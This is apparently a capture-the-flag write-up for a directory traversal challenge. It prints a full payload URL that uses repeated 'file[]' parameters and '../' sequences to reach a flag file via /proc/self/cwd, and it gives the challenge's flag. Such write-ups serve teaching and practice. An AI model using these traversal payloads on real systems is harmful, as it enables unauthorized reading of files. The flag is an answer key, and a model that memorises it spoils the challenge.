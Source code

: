 ## CTF Challenge: Directory Traversal Exploit

### Target Application:
**URL:** `http://43.205.178.174:8182/`

### Summary:
The challenge appears to be a directory traversal vulnerability allowing access to restricted files by manipulating query parameters.

### Solution:
By leveraging the `file[]` parameter, we can traverse directories and access the flag file. The following payload was used to exploit the vulnerability:

```
http://43.205.178.174:8182/getfile?file[]=../../&file[]=../../&file[]=../../&file[]=../../&file[]=../../proc/self/cwd/flag.txt&file[]=.&file[]=js
```

### Retrieved Flag:
**`ctf7{sh0uld_str1ng1fy_th3_p4r4ms}`**
